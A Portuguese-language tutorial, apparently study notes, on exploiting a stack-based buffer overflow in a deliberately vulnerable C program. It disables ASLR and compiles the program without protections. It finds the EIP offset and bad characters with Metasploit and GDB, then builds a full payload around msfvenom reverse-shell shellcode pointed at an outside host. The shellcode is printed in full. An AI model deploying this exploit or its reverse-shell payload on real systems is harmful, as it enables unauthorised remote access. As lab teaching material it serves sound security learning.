



Introdução
Exceções de memória são o sistema operacional reagindo a um erro que existe durante a execução de um software. Isso é responsável pela maior parte das vulnerabilidades de segurança em programas pela última década. Erros de programação podem acontecer, o que pode levar para um Buffer overflow devido a baixa abstração que linguagens como C e C++ podem ter.
Essas linguagens são compiladas diretamente em linguagem de máquina e, em contraste a linguagens de alta abstração como Java e Python, executam com pouca ou nenhum controle do sistema operacional. Buffer overflow são erros que permitem que uma grande quantidade de informação seja armazenada num buffer do sistema operacional que não é grande o suficiente para suportar essa quantidade de informação. Como resultado, a memória de outras funções é sobrescrita, criando potenciais vulnerabilidades.
Tal programa (arquivo binário), é geralmente um arquivo executável que fica armazenado numa memória intermediária. Existem diversas diferenças de formatos de arquivos e extensões binárias. Por exemplo, o Portable Executable Format (PE) é usado em plataformas da Microsoft.
Outro formato de arquivos executáveis é o Executable and Linking Format (ELF), suportado por quase todos os variantes do Unix modernos. Se o usuário executar um arquivo binário, o código dele será carregado na memória principal e posteriormente executado pela CPU.
Programas armazenam informações e instruções na memória durante a inicialização e execução. Essas informações são definidas no software ou como entrada de usuário. Especialmente para a entrada do usuário, é necessário que um buffer seja criado para conseguir salvar a entrada.
As instruções são usadas para modelar o fluxo do programa. Entre outras coisas, retornar endereços salvos na memória, que se referem a outros endereços e que definem o fluxo do programa. Se um endereço é deliberadamente sobrescrito usando um Buffer overflow, um atacante pode manipular o fluxo do programa e fazer retornar um endereço que se refere a outra função ou outra sub-rotina.
Para entender como isso funciona num nível mais técnico, devemos ficar familiarizados com três “como”:
- A memória é dividida e usada
- O debugger mostra o nome de instruções individuais
- O debugger pode mostrar e detectar tais vulnerabilidades
- Nós podemos manipular a memória
Outro ponto critico a se explorar, na maioria das vezes, só funciona para um tipo especifico de versão e sistema operacional. Portanto, temos que reconstruir e reconfigurar o sistema alvo para retornar o mesmo estado. Depois disso, o programa que nós estamos investigado é inicializado e analisado. Na maioria das vezes, só vamos ter uma chance de explorar o programa, caso percamos a chance de reiniciá-lo com privilégios elevados.
Programas vulneráveis
Nós podemos escrever um programa em C simples, chamado bow.c que utiliza a função strcpy() vulnerável.
Bow.c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int bowfunc(char *string) {
char buffer[1024];
strcpy(buffer, string);
return 1;
}
int main(int argc, char *argv[]) {
bowfunc(argv[1]);
printf("Done.\n");
return 1;
}Aplicações modernas possuem sistemas de proteção implementados contra essa vulnerabilidade, como o Address Space Layout Randomization (ASLR). Para finalidades de aprendizado, nós vamos desativas essa proteção da memória.
Disable ASLR
0x6a70@0x6a70:~$ sudo su
root@0x6a70:~$ echo 0 > /proc/sys/kernel/randomize_va_space
root@0x6a70:~$ cat /proc/sys/kernel/randomize_va_space
0Compilar
Agora, podemos compilar o código C em um formato 32bits ELF.
0x6a70@0x6a70:~$ sudo apt install gcc-multilib
0x6a70@0x6a70:~$ gcc bow.c -o bow32 -fno-stack-protector -z execstack -m32
0x6a70@0x6a70:~$ file bow32 | tr "," "\n"
bow: ELF 32-bit LSB shared object
Intel 80386
version 1 (SYSV)
dynamically linked
interpreter /lib/ld-linux.so.2
for GNU/Linux 3.2.0
BuildID[sha1]=93dda6b77131deecaadf9d207fdd2e70f47e1071
not strippedFunções vulneráveis
Existem diversas funções vulneráveis em C. São exemplos de função:
strcpygetssprintfscanfstrcat...
Tomar controle do EIP
O que é o ponteiro
EIP?O ponteiro
EIP(Registrador de ponteiro), também conhecido comoRIPem arquiteturas x86_64 (64 bits), é um registrador em processadores que indica a posição atual no fluxo de execução de um programa. Ele armazena o endereço da próxima instrução a ser executada pelo processador.
Uma das partes mais importantes para explorar um Stacked-Based Buffer Overflow é conseguir controle do ponteiro de instrução (EIP). Depois que a máquina chega ao EIP, ela redireciona a CPU para próxima instrução. Se temos controle sobre ele, então podemos indicar que a próxima instrução de instrução é o início de algum código malicioso.
Determinar offset para a instrução e EIP/RIP
Para isso, devemos usar as ferramentas disponibilizadas pelo Metasploit para determinar o offset (isso é, a distância até o ponteiro EIP) . As ferramentas disponíveis no Metasploit para essa funcionalidade são pattern_create.rb e pattern_offset.rb. Ambas estão localizadas em /metasploit-framework/tools/exploit/.
Criando função para verificar o tamanho
O pattern_create.rb pode ser chamado passando como parâmetro em -l o tamanho do arquivo.
[0x6a70@0x6a70 ~]$ ./metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txtVerificando o offset através do GDB
Depois disso, podemos enviar o payload adquirido através pelo GDB para conseguir verificar qual é o conteúdo que sobrescreveu o EIP.

Como foi possível observar, o endereço do EIP foi sobrescrito com 0x69423569. Esse valor pode ser revertido para saber o offset que precisamos para esse cenário.
Convertendo o Segmentation fault para offset
Assim, podemos pegar essa informação para reverter o conteúdo do passo passado para determinar o offset numa ferramenta semelhante.
[0x6a70@0x6a70 ~]$ ./metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
[*] Exact match at offset 1036
Isso significa que precisamos de 1036 bytes de offset MAIS 4 bytes para o EIP.
Determinar o tamanho do Shellcode
Vamos gerar o comando shell para saber o tamanho que nós iremos precisar. Para isso, iremos utilizar novamente o Metasploit para verificar isso. Assim, sendo:
[0x6a70@0x6a70 ~]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
unsigned char buf[] =
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd"
"\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00"
"\x01\x68\x02\x00\x7a\x69\x89\xe1\xb0\x66\x50\x51\x53\xb3"
"\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f"
"\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80";Como podemos ver, o tamanho do payload é 68 bytes. Porém, vamos considerar 150 Bytes devido a possíveis futuras complicações que serão abordadas mais para frente. Portanto, como no passo anterior a gente definiu 1040 Bytes. Então, nosso payload final por enquanto está assim:
Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
NOPs = "\x90" * 100
Shellcode = "\x44" * 150
EIP = "\x66" * 4Dica
O
NOPé uma instrução Assembly que indica nenhuma instrução. Isso ajuda a gerar a margem de erro para futuras operações.
Determinar caracteres proibidos
Existem alguns caracteres que podem impactar o nosso payload. Para saber quais são eles e especificá-los futuramente, devemos passar todos os possíveis 256 caracteres como payload e verificar qual deles tem algum impacto negativo no nosso binário. Fazendo assim:
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"Como, nos passos passados vimos que usamos 1040 Bytes, então vamos estabelecer nosso payload da seguinte maneira:
Buffer = "\x55" * (1040 - 256 - 4) = 780
CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
EIP = "\x66" * 4Devemos definir um break na função em especifico, para observar o comportamento da mesma. Podemos fazer assim no GDB.
(gdb) break bowfunc
Breakpoint 1 at 0x56555551Enviando os caracteres para o sistema, devemos observar a memória stack para saber quais caracteres estão corrompendo a memória. Para ver a memória memória stack, iremos ver usar o seguinte comando GDB:
(gdb) x/2000xb $esp+500Partes do comando
x: O comandoxno GDB é usado para examinar a memória./2000: Especifica que queremos examinar 2000 unidades. A unidade padrão é um byte, mas isso pode ser modificado com outros sufixos.b: Especifica que a unidade de visualização é um byte (bpara byte). Outros possíveis sufixos incluemh(halfword),w(word),g(giant word), etc.$esp+500: Define o endereço inicial de onde queremos começar a examinar a memória.$espé o registrador de pilha (stack pointer) e+500desloca este endereço inicial em 500 bytes.
Então, a gente deve começar a examinar os bytes a partir de quando nosso buffer começa. Isso deve-se parecer como:
0xffffd28a: 0xbb 0x69 0x36 0x38 0x36 0x00 0x00 0x00
0xffffd292: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd29a: 0x00 0x2f 0x68 0x6f 0x6d 0x65 0x2f 0x73
0xffffd2a2: 0x74 0x75 0x64 0x65 0x6e 0x74 0x2f 0x62
0xffffd2aa: 0x6f 0x77 0x2f 0x62 0x6f 0x77 0x33 0x32
0xffffd2b2: 0x00 0x55 0x55 0x55 0x55 0x55 0x55 0x55
# |---> "\x55"s begin (buffer começando)
0xffffd2ba: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd2c2: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
<SNIP>
Agora, verificamos os caracteres proibidos. Devemos descer até o começo dos nosso caracteres de testes.
<SNIP>
0xffffd5aa: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5b2: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5ba: 0x55 0x55 0x55 0x55 0x55 0x01 0x02 0x03
# |---> CHARS begin
0xffffd5c2: 0x04 0x05 0x06 0x07 0x08 0x00 0x0b 0x0c
0xffffd5ca: 0x0d 0x0e 0x0f 0x10 0x11 0x12 0x13 0x14
0xffffd5d2: 0x15 0x16 0x17 0x18 0x19 0x1a 0x1b 0x1c
<SNIP>
Nesse caso, podemos ver que o caractere 0x00 não está presente. Então, devemos tirá-lo de nossa lista e refazer todo esse passo.
Buffer = "\x55" * (1040 - 255 - 4) = 781
CHARS = "\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
EIP = "\x66" * 4Esse payload gera a seguinte memória stack:
<SNIP>
0xffffd5ba: 0x55 0x55 0x55 0x55 0x55 0x01 0x02 0x03
0xffffd5c2: 0x04 0x05 0x06 0x07 0x08 0x00 0x0b 0x0c
# |----| <- espera-se "\x09"
0xffffd5ca: 0x0d 0x0e 0x0f 0x10 0x11 0x12 0x13 0x14
<SNIP>Como podemos ver, o caractere \x09 também gera algum impacto no nosso sistema, e devemos tirá-lo.
Esse procedimento deve se repetir até que todos os caracteres sejam removidos.
No final do processo, descobrimos que os caracteres proibidos nesse cenário são:
\x00\x09\x0a\x20Gerar o payload malicioso
Para isso, iremos gerar o payload no Metasploit passando (dessa vez), os caracteres proibidos. Assim, podemos usar o comando:
[0x6a70@0x6a70 ~]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.15.209 lport=31337 --platform linux --arch x86 --format c --bad-chars "\x00\x09\x0a\x20"
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
unsigned char buf[] =
"\xd9\xc1\xbb\x41\xb1\xc6\xd1\xd9\x74\x24\xf4\x5a\x31\xc9"
"\xb1\x12\x31\x5a\x17\x83\xea\xfc\x03\x1b\xa2\x24\x24\xaa"
"\x1f\x5f\x24\x9f\xdc\xf3\xc1\x1d\x6a\x12\xa5\x47\xa1\x55"
"\x55\xde\x89\x69\x97\x60\xa0\xec\xde\x08\x39\x05\x2e\x19"
"\x55\x1b\x30\xe3\xcf\x92\xd1\xa3\x76\xf5\x40\x90\xc5\xf6"
"\xeb\xf7\xe7\x79\xb9\x9f\x99\x56\x4d\x37\x0e\x86\x9e\xa5"
"\xa7\x51\x03\x7b\x6b\xeb\x25\xcb\x80\x26\x25";Portanto, nosso shell final é:
\xd9\xc1\xbb\x41\xb1\xc6\xd1\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x12\x31\x5a\x17\x83\xea\xfc\x03\x1b\xa2\x24\x24\xaa\x1f\x5f\x24\x9f\xdc\xf3\xc1\x1d\x6a\x12\xa5\x47\xa1\x55\x55\xde\x89\x69\x97\x60\xa0\xec\xde\x08\x39\x05\x2e\x19\x55\x1b\x30\xe3\xcf\x92\xd1\xa3\x76\xf5\x40\x90\xc5\xf6\xeb\xf7\xe7\x79\xb9\x9f\x99\x56\x4d\x37\x0e\x86\x9e\xa5\xa7\x51\x03\x7b\x6b\xeb\x25\xcb\x80\x26\x25
Contudo, o payload será feito da seguinte forma:
Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
NOPs = "\x90" * 124
Shellcode = "\xd9\xc1\xbb\x41\xb1\xc6\xd1\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x12\x31\x5a\x17\x83\xea\xfc\x03\x1b\xa2\x24\x24\xaa\x1f\x5f\x24\x9f\xdc\xf3\xc1\x1d\x6a\x12\xa5\x47\xa1\x55\x55\xde\x89\x69\x97\x60\xa0\xec\xde\x08\x39\x05\x2e\x19\x55\x1b\x30\xe3\xcf\x92\xd1\xa3\x76\xf5\x40\x90\xc5\xf6\xeb\xf7\xe7\x79\xb9\x9f\x99\x56\x4d\x37\x0e\x86\x9e\xa5\xa7\x51\x03\x7b\x6b\xeb\x25\xcb\x80\x26\x25"
EIP = "\x66" * 4'Modificando o EIP para o endereço dos códigos NOP
Da mesma maneira que visualizamos os caracteres proibidos, podemos visualizar onde tem os códigos NOP e pegarmos o endereço da máquina. Sendo assim, podemos completar o seguinte passo a passo:

Devemos pegar qualquer endereço dos NOPS e colocá-lo DE TRÁS PARA FRENTE na parte do do EIP.
O endereço 0xffffd708 ficará \x08\xd7\xff\xff.
Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
NOPs = "\x90" * 124
Shellcode = "\xd9\xc1\xbb\x41\xb1\xc6\xd1\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x12\x31\x5a\x17\x83\xea\xfc\x03\x1b\xa2\x24\x24\xaa\x1f\x5f\x24\x9f\xdc\xf3\xc1\x1d\x6a\x12\xa5\x47\xa1\x55\x55\xde\x89\x69\x97\x60\xa0\xec\xde\x08\x39\x05\x2e\x19\x55\x1b\x30\xe3\xcf\x92\xd1\xa3\x76\xf5\x40\x90\xc5\xf6\xeb\xf7\xe7\x79\xb9\x9f\x99\x56\x4d\x37\x0e\x86\x9e\xa5\xa7\x51\x03\x7b\x6b\xeb\x25\xcb\x80\x26\x25"
EIP = "\x08\xd7\xff\xff"'O payload está pronto e pode ser executado com sucesso, gerando uma reverse shell no sistema alvo.
Exploits públicos
A maioria dos exploits públicos são alterados propositalmente para conter erros intencionais. Esses erros frequentemente servem como uma medida de segurança para novatos não conseguir executar esses exploits facilmente, para prevenir que organizações e sistemas sejam explorados por esses indivíduos.
Para editar e modificar eles, a parte mais importante é entender como a vulnerabilidade funciona, que função a vulnerabilidade é, e como executar a vulnerabilidade. Na maioria dos exploits, nós vamos ter que adaptar nosso shellcode para conseguir explorar a vulnerabilidade.
Ainda é importante lembrar que diferentes sistemas podem ter diferentes instruções, e é importante adaptar todo o código para se adaptar ao nosso sistema alvo. Esses exploits podem fazer com que o sistema trave e nos impeça de continuar explorando.